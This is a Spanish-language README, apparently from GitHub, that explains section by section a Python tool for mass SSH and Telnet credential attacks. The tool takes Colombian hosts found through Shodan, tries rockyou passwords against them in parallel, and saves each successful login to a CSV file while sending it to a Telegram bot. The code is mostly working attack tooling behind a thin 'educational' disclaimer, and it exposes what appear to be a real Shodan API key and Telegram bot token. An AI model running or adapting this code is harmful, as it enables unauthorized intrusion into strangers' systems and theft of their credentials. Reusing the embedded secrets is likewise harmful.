


## **1. Importación de Módulos**
```python
import shodan
import paramiko
import requests
import csv
import socket
import subprocess
import time
from concurrent.futures import ThreadPoolExecutor
import threading
import logging
```
Aquí se importan las librerías necesarias:
- `shodan`: Para buscar dispositivos vulnerables en Shodan.
- `paramiko`: Para conexiones SSH.
- `requests`: Para enviar mensajes por Telegram.
- `csv`: Para almacenar accesos exitosos en un archivo.
- `socket`: Para verificar si los puertos están abiertos.
- `subprocess`: Para ejecutar comandos en el sistema.
- `time`: Para pausas y evitar bloqueos por demasiadas solicitudes.
- `concurrent.futures.ThreadPoolExecutor`: Para ejecutar pruebas en paralelo.
- `threading`: Para el control de acceso a variables compartidas.
- `logging`: Para registrar errores y eventos importantes.

---

## **2. Advertencia Legal y Confirmación**
```python
print("\u26a0\ufe0f ADVERTENCIA: Esta herramienta es solo para fines educativos y debe ser utilizada con autorización.")
confirmacion = input("¿Tienes autorización para auditar estas IPs? (sí/no): ").strip().lower()
if confirmacion != "si":
    print("\ud83d\udeab Operación cancelada por el usuario.")
    exit()
```
- Se muestra una advertencia de uso legal.
- Se pide confirmación al usuario. Si responde distinto de "sí", se cancela la ejecución.

---

## **3. Configuración de Logging**
```python
logging.basicConfig(filename="errors.log", level=logging.ERROR)
logging.basicConfig(filename="telnet_auditoria.log", level=logging.INFO, format="%(asctime)s - %(message)s")
```
- Se configuran logs para registrar errores y eventos.

---

## **4. Configuración de la API de Shodan y Telegram**
```python
API_KEY = "OscSR1MKM2fICcN5KgVBBJIGnXwrIt8z"
TELEGRAM_BOT_TOKEN = "7720656194:AAGRh7hySVMNN36O2IcTl6cJa5vNa-0Sbws"
TELEGRAM_CHAT_ID = "1574894198"
```
- Se definen las credenciales de Shodan y Telegram.
- Si faltan, el programa se detiene.

---

## **5. Variables de Estadísticas**
```python
total_intentos = 0
total_exitosos = 0
total_intentos_telnet = 0
total_exitosos_telnet = 0
```
- Se inicializan variables para contar intentos y éxitos en SSH y Telnet.

---

## **6. Búsqueda de IPs con SSH y Telnet en Shodan**
```python
def search_shodan(query):
    api = shodan.Shodan(API_KEY)
    try:
        result = api.search(query)
        return [service['ip_str'] for service in result['matches']]
    except shodan.APIError as e:
        logging.error(f"Error en Shodan: {e}")
        return []
```
- Se consulta la API de Shodan con una búsqueda específica.
- Se extraen las IPs encontradas.
- Si hay error, se registra en el log.

---

## **7. Envío de Notificaciones por Telegram**
```python
def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    payload = {"chat_id": TELEGRAM_CHAT_ID, "text": message, "parse_mode": "Markdown"}
    try:
        requests.post(url, data=payload)
    except Exception as e:
        logging.error(f"Error enviando mensaje de Telegram: {e}")
```
- Envía mensajes de estado y alertas a un chat de Telegram.

---

## **8. Verificación de Credenciales SSH**
```python
def check_ssh(ip, username, password):
    global total_intentos, total_exitosos
    with lock:
        total_intentos += 1
    
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(ip, username=username, password=password, timeout=10, banner_timeout=10)
        
        print(f"\u2705 Acceso exitoso: {ip} - {username}:{password}")

        # Guardar en CSV
        with open("C:/Users/Julian/Desktop/accesos_exitosos.csv", "a", newline="") as file:
            writer = csv.writer(file)
            writer.writerow([ip, username, password])

        # Notificación por Telegram
        send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
        total_exitosos += 1
        client.close()
```
- Prueba credenciales SSH en una IP dada.
- Si la autenticación es exitosa:
  - Se imprime el acceso.
  - Se guarda en CSV.
  - Se envía alerta por Telegram.

---

## **9. Verificación de Credenciales Telnet**
```python
def check_telnet(ip, username, password):
    global total_intentos_telnet, total_exitosos_telnet
    with lock:
        total_intentos_telnet += 1

    try:
        tn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        tn.settimeout(10)
        tn.connect((ip, 23))  

        time.sleep(2)
        response = tn.recv(4096).decode(errors="ignore")  

        if "login:" in response.lower():
            tn.sendall(username.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "password:" in response.lower():
            tn.sendall(password.encode() + b"\r\n")  

        time.sleep(1)
        response = tn.recv(1024).decode(errors="ignore")

        if "incorrect" not in response.lower():
            send_telegram_message(f"\ud83d\ude80 *Acceso exitoso en Telnet* `{ip}`\n\ud83d\udc64 Usuario: `{username}`\n\ud83d\udd11 Contraseña: `{password}`")
            total_exitosos_telnet += 1
```
- Similar a SSH, pero para Telnet.
- Si se logra acceso, se envía notificación.

---

## **10. Verificación de Puertos Abiertos**
```python
def is_ssh_open(ip):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(5)
    result = sock.connect_ex((ip, 22))
    sock.close()
    return result == 0
```
- Comprueba si el puerto 22 (SSH) está abierto en una IP.

---
## **11. Carga de Contraseñas de RockYou**
```python
def load_passwords(file_path):
    try:
        with open(file_path, "r", encoding="latin-1") as f:
            return [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        logging.error(f"No se encontró el archivo {file_path}")
        return []
```
- Carga contraseñas desde el diccionario rockyou.txt.

---
## **12. Ejecución de Auditoría**
```python
ssh_ips = search_shodan("port:22 country:CO")[:NUM_IPS_A_ESCANEAR]
telnet_ips = search_shodan("port:23 country:CO")[:NUM_IPS_A_ESCANEAR]

ssh_ips = [ip for ip in ssh_ips if is_ssh_open(ip)]
telnet_ips = [ip for ip in telnet_ips if is_telnet_open(ip)]

```
- Se buscan IPs en Shodan y se filtran por puertos abiertos.
```python
with ThreadPoolExecutor(max_workers=5) as executor:
    for ip in ssh_ips:
        for username, pass_list in credentials.items():
            for password in pass_list:
                executor.submit(check_ssh, ip, username, password)


```
- Ejecuta auditorías en paralelo para SSH y Telnet.
---
## **13. Resumen Final**
```python
send_telegram_message(f"📊 *Resumen de auditoría SSH*:\n🔹 Total intentos: `{total_intentos}`\n✅ Accesos exitosos: `{total_exitosos}`")
send_telegram_message(f"📊 *Resumen de auditoría TELNET*:\n🔹 Total intentos: `{total_intentos_telnet}`\n✅ Accesos exitosos: `{total_exitosos_telnet}`")

```
- Envía un resumen de la auditoría a Telegram.

---
## **EVIDENCIAS**



